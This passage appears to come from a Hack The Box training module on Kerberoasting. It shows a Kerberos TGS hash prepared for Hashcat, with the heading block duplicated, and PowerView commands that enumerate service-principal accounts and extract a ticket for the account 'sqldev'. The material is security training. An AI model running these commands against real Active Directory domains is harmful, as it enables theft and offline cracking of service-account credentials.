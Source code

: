 #### Viewing the Prepared Hash

  Viewing the Prepared Hash

```shell
gdxqpardo@htb[/htb]$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$[-SNIP-]
...
```



#### Viewing the Prepared Hash

  Viewing the Prepared Hash

```bash
gdxqpardo@htb[/htb]$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965ed49d1ba8$7a8c9
....[-SNIP-]
```







---

## Automated / Tool Based Route

Next, we'll cover two much quicker ways to perform Kerberoasting from a Windows host. First, let's use [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) to extract the TGS tickets and convert them to Hashcat format. We can start by enumerating SPN accounts.

#### Using PowerView to Extract TGS Tickets
  
Using PowerView to Extract TGS Tickets

```powershell
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```

From here, we could target a specific user and retrieve the TGS ticket in Hashcat format.

#### Using PowerView to Target a Specific User

  Using PowerView to Target a Specific User

```powershell
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```


Finally, we can export all tickets to a CSV file for offline processing.
